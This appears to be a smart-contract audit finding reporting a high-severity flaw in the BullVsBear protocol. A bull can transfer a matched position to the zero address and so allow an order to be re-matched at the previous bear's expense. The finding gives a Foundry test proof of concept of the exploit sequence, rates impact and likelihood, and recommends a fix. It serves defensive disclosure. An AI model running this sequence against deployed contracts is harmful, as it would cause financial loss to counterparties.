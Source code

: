 curiousapple

high

# [High-1] Any bull can override the already matched order with the new bear, resulting in a loss  for the previous bear instantly.

## Summary
Any bull can override the already matched order with the new bear, resulting in a loss  for the previous bear instantly.

## Vulnerability Detail
`BullVsBear` allows two parties to take the opposite position on any allowed collection.

Any one of Bull or Bear could be a maker and sign an order off-chain, and then the taker can match it onchain using `matchOrder()`.

Once an order is matched, ideally, it shouldn't be possible for any party to override it.

However, due to the combination of one incomplete check in `checkIsValidOrder` and the ability for any party to transfer their position to any address, **Bulls of any order can override the already matched order at the loss of the previous bear.**

`matchOrder` depends on `checkIsValidOrder` to detect if the given order is already matched, and `checkIsValidOrder` achieves so via the following check.
If `bulls` mapping for a particular `contractId` is set, it is assumed that the order is already matched.

```solidity
require(bulls[uint(orderHash)] == address(0), "ORDER_ALREADY_MATCHED");
```

**However, what if bull transfers the position to zero address?**

Now any new bear or bull itself can act as a bear and `matchOrder` again.

**Verification:**
```solidity
Inside Integration.t.sol

function testMatchingAndContractSettlement(BvbProtocol.Order memory order) public {
        vm.assume(order.premium <= type(uint).max / 1000);
        vm.assume(order.collateral <= type(uint).max / 1000);
        // Build the order
        order.validity = block.timestamp + 1 hours;
        order.expiry = block.timestamp + 1 days;
        order.nonce = 10;
        order.fee = bvb.fee();
        order.maker = bull;
        order.asset = address(usdc);
        order.collection = address(doodles);
        order.isBull = true;

        bytes32 orderHash = bvb.hashOrder(order);

        // Sign the order
        bytes memory signature = signOrderHash(bullPrivateKey, orderHash);

        // Calculate fees
        uint owedFeesBull = (order.collateral * fee) / 1000;
        uint owedFeesBear = (order.premium * fee) / 1000;

        // Give Bull and Bear enough USDC
        deal(address(usdc), bull, type(uint).max);
        deal(address(usdc), bear, type(uint).max);

        // Initial balances
        uint initialBalanceBull = usdc.balanceOf(bull);
        uint initialBalanceBear = usdc.balanceOf(bear);
        uint initialBalanceBvb = usdc.balanceOf(address(bvb));
        uint initialWithdrawableFees = bvb.withdrawableFees(address(usdc));

        // Approve Bvb to withdraw USDC from Bull and Bear
        vm.prank(bull);
        usdc.approve(address(bvb), type(uint).max);
        vm.prank(bear);
        usdc.approve(address(bvb), type(uint).max);

        // Maker (Bear) match with this order
        vm.prank(bear); 
        bvb.matchOrder(order, signature);
        vm.prank(bull);
        bvb.transferPosition(orderHash, true, address(0));
        vm.prank(bear);
        bvb.matchOrder(order, signature);

    }
   ```
## Impact : High
Bear would lose their position, even if the current market condition is in its favor.  They would lose only premium in the best case and premium + collateral in the worst case.

## Likelihood: Medium 

Any bull can execute this; there is no need for any special circumstances to occur.
However, the bull would lose its initial collateral as well.
There are two cases
1. Bull is winning: here, there is no clear incentive for the bull to execute this.
2. Bear is winning: here, anyway bull is going to lose its collateral; now, if the given NFT collection has become worthless, or if the bull doesn't want to lose the bet, the bull has a clear incentive to grieve the bear. 
Since this is a grieving vector, it's not a high likelihood, but because there is a clear way for one party to grieve another party from winning and end it in a draw and go one up, it could also happen, hence rating likelihood as a medium.

## Code Snippet
https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L760
https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L521

## Tool used

Manual Review

## Recommendation
Consider blocking transfers to zero address inside `transferPosition`.